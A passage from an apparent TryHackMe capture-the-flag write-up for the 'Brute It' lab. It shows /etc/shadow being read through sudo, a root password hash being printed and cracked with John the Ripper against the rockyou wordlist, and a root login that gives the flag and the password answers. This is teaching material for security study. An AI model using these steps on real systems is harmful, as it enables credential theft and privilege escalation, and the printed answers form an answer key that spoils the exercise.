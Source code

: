 - Third: From the ssh session 
```
john@bruteit:~$ LFILE=/etc/shadow
john@bruteit:~$ sudo cat "$LFILE"
....
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```
- Fourth: Copy/paste the root hash in a file and use john
```
john --wordlist=/usr/share/wordlists/rockyou.txt /media/sf_LOLO_Share/TryHackMe/root_hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (?)
1g 0:00:00:00 DONE (2021-12-09 20:00) 10.00g/s 1280p/s 1280c/s 1280C/s 123456..diamond
Use the "--show" option to display all of the cracked passwords reliably
Session completed
``` 
**Answer**
###### football

**Question**
#### root.txt

From the ssh session, elevate your privilege as root

```
john@bruteit:~$ su -
Password:
root@bruteit:~# ls
root.txt
root@bruteit:~# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
**Answer**
###### THM{pr1v1l3g3_3sc4l4t10n}
